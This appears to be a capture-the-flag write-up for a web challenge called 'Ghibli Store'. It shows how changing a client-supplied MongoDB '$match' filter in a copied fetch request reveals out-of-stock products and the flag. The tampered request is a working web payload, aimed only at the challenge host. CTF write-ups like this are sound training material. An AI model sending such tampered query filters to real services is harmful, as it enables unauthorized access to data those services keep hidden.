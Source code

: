# Ghibli Store :: 001 100pts

BRIEFING
We're working on a new Ghibli store to sell the cutest plush toys you'll find on the internet! We don't have all the products in stock yet, can you find the hidden item?

Challenge Host: http://ghibli.pwn.site:8035/

## Solution 

Retrieve the following page
![alt text](image.png)

Utilizing browser development tools, identify a POST request for the products with a filter matching 'true' on 'instock'

![alt text](image-1.png)

Copy the request as a fetch and modify the filter to be 'false'

```
fetch("http://ghibli.pwn.site:8035/api/products", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9",
    "cache-control": "no-cache",
    "content-type": "application/json",
    "pragma": "no-cache"
  },
  "referrer": "http://ghibli.pwn.site:8035/",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": "{\"query\":{\"$match\":{\"instock\":false}}}",
  "method": "POST",
  "mode": "cors",
  "credentials": "omit"
});
```

![alt text](image-2.png)
flag of `flag{s1mpl3_m47ch_w45_4ll_1t_n33d3d}`


